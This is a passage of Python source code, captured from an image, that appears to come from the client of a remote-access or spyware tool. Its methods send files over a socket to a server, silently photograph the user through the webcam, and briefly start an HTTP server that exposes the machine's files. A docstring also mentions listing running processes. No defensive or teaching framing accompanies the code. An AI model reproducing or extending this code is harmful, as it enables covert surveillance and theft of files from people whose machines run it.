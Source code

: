 ```python
        - Returns the first 10 running processes on the local machine
    Requirements:
        - Needs the psutil import
    '''

    @staticmethod
    def send_File(client, file_path):
        file_name = os.path.basename(file_path)
        print(file_name)
        client.send(file_name.encode('utf-8'))

        file_size = os.path.getsize(file_path)
        client.send(str(file_size).encode('utf-8'))

        with open(file_path, 'rb') as f:
            while True:
                left_to_send = f.read(1024)
                if not left_to_send:
                    break
                client.sendall(left_to_send)


    '''
    send_File() - Purpose of this function is to send all the files that exist in the data directory.
    Args:
        Client: This is the connection to the server and is how we will send the files over the network
    Returns:
        - None
    Requirements:
        - Needs the OS import
        - Needs the time import (this stops the client from crashing)
    '''

    @staticmethod
    def capture_webcam():
        webcam = cv2.VideoCapture(0)
        results, image = webcam.read()
        time = datetime.now()
        formatted_t = time.strftime("%H_%M_%S")

        if results:
            filename = f"WEBCAM_PIC_{formatted_t}.png"
            cv2.imwrite(filename, image)
            #print("Image saved")
        else:
            #print("No camera detected.")
            filename = False
        webcam.release()
        cv2.destroyAllWindows()
        return filename

    @staticmethod
    def browse_download(client):

        def start_http():
            start_python_server = subprocess.Popen(['python', '-m', 'http.server', '8000'])
            time.sleep(45)
            start_python_server.terminate()

        thread = threading.Thread(target=start_http)
        thread.start()
```